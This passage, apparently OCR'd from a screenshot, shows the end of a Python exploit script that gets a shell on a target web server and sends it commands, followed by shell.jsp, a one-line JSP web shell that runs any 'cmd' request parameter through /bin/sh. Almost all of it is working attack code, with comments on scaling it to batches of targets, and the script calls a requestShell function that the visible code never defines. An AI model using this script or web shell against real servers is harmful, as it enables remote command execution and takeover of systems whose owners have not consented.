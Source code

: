 ```
            t.join()
            return True
        else:
            print("[-]Error,404,shell:`{``}`".format(u))
            return False


def work(u, cmd, password):
    print("work Function................")
    param = urllib.parse.quote('?' + password + '=' + cmd,safe='/?&amp;=', encoding=None, errors=None)
    url = u + param
    if debug:
        print(url)
    r = requests.get(url, timeout=5)
    if(r.status_code == 200):
        print("[+]Success, Execute CMD!!!")
        return True
    else:
        print("[-]Error, Execute CMD Failed!!")

def attack(url):
    shellURL = getShell(url)
    # 执行的命令
    cmd = '''echo "123"&gt;/tmp/shell.txt ''';
    # 连接shell的参数
    password = 'cmd'
    if(shellURL):
        for i in range(2):
            print("n Staring Fuzz:`{``}` n".format(str(i)).center(100,'+'))
            result = requestShell(shellURL, cmd, password)
        if(result):
            print("[+] Success,cmd:`{``}`".format(cmd))
        else:
            print("[-] Error!")
    else:
        print("[-] Error, getshell failed!")

def main():
    Target = ['127.0.0.1:82']
    # 这里可以进行多线程优化,针对批量目标的时候
    for host in Target:
        attack(host)

if __name__ == '__main__':
    main()
```

`shell.jsp`

```
&lt;%Runtime.getRuntime().exec(new String[]`{`"/bin/sh","-c",request.getParameter("cmd")`}`);%&gt;
```
